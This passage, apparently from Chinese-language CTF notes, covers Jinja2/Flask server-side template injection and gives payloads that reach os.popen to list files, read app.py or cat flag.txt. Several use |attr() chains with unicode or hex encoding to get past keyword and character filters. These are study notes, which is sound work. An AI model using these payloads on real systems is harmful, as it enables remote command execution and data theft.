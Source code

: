 ```
{{().__class__.__bases__[0].__subclasses__()[222].get_data(0,"app.py")}} 
```

使用十六进制绕过后，payload如下

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[222]["get\x5Fdata"](0, "app\x2Epy")}}
```

#### 利用|attr()+ 编码Bypass

##### `Unicode +|attr()`:

```javascript
#过滤了以下字符：
'' & 'request' & '{{' & '_' & '%20(空格)' & '[]' & '.' & '__globals__' & '__getitem__'
#我们用 {%...%}绕过对 {{ 的过滤，并用unicode绕过对关键字的过滤。
```

我们要构造的payload原型为：` {{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}`

```javascript
#先用|attr()绕过.和[]：
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
#我们可以将过滤掉的字符用unicode替换掉：
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

##### Hex +|attr() :

- 和上面那个一样，只不过是将Unicode编码换成了Hex编码，适用于“u”被过滤了的情况。
- 我们可以将过滤掉的字符用Hex编码替换掉：

```javascript
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

### 尝试执行代码 (来自知乎)https://zhuanlan.zhihu.com/p/93746437

```python
使用魔术方法进行函数解析，再获取基本类：

''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
获取基本类后，继续向下获取基本类 object 的子类：

object.__subclasses__()
找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```
